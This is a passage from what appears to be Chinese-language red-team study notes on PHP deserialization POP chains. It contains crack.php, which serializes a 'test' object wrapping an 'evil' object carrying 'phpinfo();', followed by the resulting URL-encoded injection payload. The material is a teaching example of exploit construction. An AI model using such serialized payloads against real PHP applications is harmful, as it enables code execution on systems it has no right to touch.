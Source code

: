 test 这个类本来是调用 normal 类的，而 normal 类中含有 `action()` 方法用于显示字符串，但是现在 `action()` 方法在 evil 类里面也有，所以可以构造 pop 链，调用 evil 类中的 `action()` 方法。

crack.php
```php
<?php

class test {
    protected $ClassObj;

    function __construct() {
        $this->ClassObj = new evil();
    }

}
class evil {
    private $data="phpinfo();";
}
$a=new test();
echo urlencode(serialize($a));
?>
```

```
O%3A4%3A%22test%22%3A1%3A%7Bs%3A11%3A%22%00%2A%00ClassObj%22%3BO%3A4%3A%22evil%22%3A1%3A%7Bs%3A10%3A%22%00evil%00data%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D
```

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/POP/1.png)

---

## 魔术方法
